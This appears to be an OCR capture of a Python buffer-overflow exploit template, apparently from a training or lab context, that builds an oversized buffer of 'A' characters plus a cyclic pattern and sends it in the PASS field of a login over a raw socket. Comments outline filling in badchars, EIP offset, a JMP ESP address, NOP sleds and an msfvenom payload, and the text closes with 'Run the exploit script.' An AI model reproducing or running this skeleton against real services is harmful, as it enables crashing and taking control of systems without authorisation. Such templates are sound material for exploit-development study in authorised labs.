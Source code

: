 ```
pattern += "k8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9"                              #ADD

#
# PAYLOAD
# Paste msfvenom command next line, payload info beneath, then payload.
# 

#################### Exploit
# Target crashes at "A" * 2700____________________ (# bytes: qty of char "A")
# Badchars: "\x00\x19\x1a\x1b\x1c"________________ (\xXX hex string)          #MOD
# Pattern-generated EIP: _________________________ (4 bytes in hex)
# Specific offset (splat) is _____________________ (# bytes)
# Usable JMP ESP at ______________________________ (little-endian hex addr)

sploit  = ""
sploit += ""           # protocol reqts
sploit += ""           # badchar test                                         #MOD
sploit += pattern      # pattern_create                                       #MOD
sploit += "A" * 2700   # splat
sploit += ""           # eip
sploit += ""           # nopsled
sploit += ""           # payload
sploit += ""           # nopsled

#################### Communication

# Standup
printinfo(["Creating socket ..."])
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
printinfo(["Connecting to", ip, "on port", port, "..."])
connect = s.connect((ip, port))
s.recv(1024)

# Interact
printinfo(["Sending username \"test\" ..."])
s.send('USER test\r\n')
s.recv(1024)
printinfo(["Sending password of", len(sploit), "bytes..."])
s.send('PASS ' + sploit + '\r\n')

# Result
printresult(["Exploit sent. Attack complete."])

# Teardown
printinfo(["Quitting connection."])
s.send('QUIT\r\n')
s.close()
```

Run the exploit script.
